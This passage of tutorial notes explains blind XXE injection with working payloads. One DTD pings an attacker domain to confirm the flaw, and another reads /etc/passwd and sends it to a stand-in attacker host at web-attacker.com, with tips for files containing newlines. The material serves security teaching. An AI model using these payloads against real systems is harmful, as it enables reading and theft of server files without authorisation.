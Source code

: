 `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.


#### Exploiting blind XXE to exfiltrate data out-of-band

- Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited.
-  This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
- An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;

```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

- The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

`http://web-attacker.com/malicious.dtd`

- Finally, the attacker must submit the following XXE payload to the vulnerable application:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

- This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

> This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.


#### Exploiting blind XXE to exfiltrate data out-of-band
